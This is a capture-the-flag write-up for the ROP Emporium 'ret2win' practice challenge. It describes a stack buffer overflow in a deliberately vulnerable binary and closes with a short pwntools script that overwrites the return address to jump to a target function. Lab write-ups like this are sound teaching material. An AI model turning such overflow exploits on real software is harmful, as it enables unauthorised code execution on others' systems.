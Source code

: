# ROP Emporium
- [ret2win](#ret2win)

-----

## ret2win

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/394f9b8d-489e-48a1-819e-ff87397f8dae)

Theres a ret2win function that I need to run.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/0cbae7df-b2a5-4578-a13a-2e55b6aa32ac)

Main function points to a pwnme function.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f4a4e38f-8ce3-45f7-9662-52b900f285ff)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/08ef5d62-47f0-454d-951c-be9af458bf84)

Ok, there is a buffer overflow here, since it reads in 56 bytes into a 32 byte buffer.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/e3ba53c3-1cfd-4533-9299-f4bc31701719)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/3634127f-9c01-4ced-811a-043d44fe02d4)

So, I have to put in 32 bytes of anything with the address of ret2win.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f79629cf-a910-4697-9e1b-8f61936ca1e4)

But it does not work, because need to overwrite the RBP also, thats another 8 bytes buffer added.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/2268c03e-635b-466a-abda-1191fca008b4)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/17b4da86-cafa-44d9-b6e0-b42287cebf68)

I got the flag (I am not sure why the program is not cat-ing out the flag prob something with the permissions).

Solution:

```py
from pwn import *

p = process('./ret2win')
p.recv()

buffer  = b"A"*40
ret2win = p64(0x0000000000400756)

p.sendline(buffer + ret2win)
print(p.recv())
```
